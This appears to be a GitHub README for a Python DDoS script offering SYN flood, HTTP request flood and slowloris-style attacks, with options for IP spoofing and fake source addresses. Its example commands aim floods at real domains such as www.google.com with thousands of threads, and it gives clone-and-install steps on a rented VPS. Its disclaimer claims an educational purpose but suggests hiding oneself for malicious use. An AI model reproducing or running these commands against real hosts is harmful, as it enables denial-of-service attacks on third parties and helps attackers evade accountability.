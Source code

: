 # ddos.py

* This is still in development 
* This script has 3 types of DDos attacks : SYNFLOOD | REQUEST | Pyslow
* Script has pyslow attack type which is similar to slowloris attack

# Note
* I wrote this script for educational not for destructive purposes and illegal actions, so I won't be responsible for that  
* DDos servers only if you have explicit permission from the owners of the server or else you will get in a lot of trouble or maybe legal issues so best use something to hide yourself if you want to use it for malicious purposes [I do not condone malicious activities]

# Requires module
* termcolor
* colorama



# Usage
       
      _ \        __ \  __ \               ___|           _)       |   
     |   | |   | |   | |   |  _ \   __| \___ \   __|  __| | __ \  __|  
     ___/  |   | |   | |   | (   |\__ \       | (    |    | |   | |   
    _|    \__, |____/ ____/ \___/ ____/ _____/ \___|_|   _| .__/ \__|  
           ____/                                            _|         
                                                               
        DDos python script | Script used for testing ddos | Ddos attack     
         Author: Wack                                                
         Github: https://github.com/Wackolmao/DDos-Script-Test                             
        Version:3.0 

    usage: python3 pyddos.py -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
        python3 pyddos.py -d www.example.com -p 80 -T 2000 -Pyslow
        python3 pyddos.py -d www.domain.com -s 100 -Request
        python3 pyddos.py -d www.google.com -Synflood -T 5000 -t 10.0



# Guide on installing it in Ubuntu [Which was what I used]
* My hosting I used is [Xentain Solutions](https://xentainsolutions.com) cheap and affordable vps 
 ```
 git clone https://github.com/Wackolmao/DDos-Script-Test
 mv DDos-Script-Test ddoscript
 sudo apt update
 sudo apt install python3 python3-pip -y
 pip3 install termcolor colorama

